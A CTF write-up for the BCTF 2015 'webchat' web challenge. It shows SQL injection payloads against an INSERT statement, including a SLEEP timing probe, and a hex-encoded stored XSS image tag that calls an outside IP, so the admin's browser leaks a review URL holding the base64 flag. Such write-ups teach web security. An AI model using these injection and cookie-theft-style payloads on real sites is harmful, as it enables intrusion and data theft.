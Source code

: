 ## BCTF 2015 - webchat (Web 325)
##### 21-23/03/2015 (48hr)
___

### Description: 
http://146.148.60.107:9991/
___

It's a classic SQLi on INSERT statement:
```
foo' 'bar
foo',0x61),('foo
foo',0x61, 0x62),('foo
bar'), ('asd					--> 35146 foo: bar (it doesn't send the last one)
bar', 0x62 ), (0x61,'asd
bar'), (SLEEP(2)), ('bla		--> works! returns after 2 secs! :)
```
The SQL statement is:
```
	insert into t values('nick', 'msg')
	insert into t values('nick', 'msg'),('asd')
```

Let's try XSS because we know that the admin will read our messages:
```
'),(0x3c696d67207372633d22687474703a2f2f3132382e3231312e3138392e32312f666f6f223e),('	
--> (hex encode of: <img src="http://128.211.189.21/foo"> )
```

From the logs we can see the flag in referral:
```
http://127.0.0.1:9991/review?pass=QkNURnt4c3NfaXNfbm90X3RoYXRfZGlmZmljdWx0X3JpZ2h0fQ==&id=40379
```

We decode the pass: QkNURnt4c3NfaXNfbm90X3RoYXRfZGlmZmljdWx0X3JpZ2h0fQ== and we get the flag: 
**BCTF{xss_is_not_that_difficult_right}**
___